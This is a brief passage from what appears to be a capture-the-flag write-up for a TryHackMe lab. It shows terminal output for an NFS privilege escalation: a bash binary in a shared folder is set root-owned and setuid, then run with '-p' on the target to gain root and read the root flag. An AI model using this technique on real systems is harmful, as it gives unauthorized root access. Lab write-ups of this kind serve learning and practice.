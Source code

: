 ```
[sudo] password for kali:
┌──(root💀heart)-[/home/kali/THM/nfs]
└─# chown root bash
┌──(root💀heart)-[/home/kali/THM/nfs]
└─# chmod +s bash
...
[james@ip-10-10-68-24 ~]$ ls -l bash
-rwsr-sr-x 1 root james 1219248 Jan 24 22:50 bash
[james@ip-10-10-68-24 ~]$ ./bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.flag
thm{censored}
```
And, root!
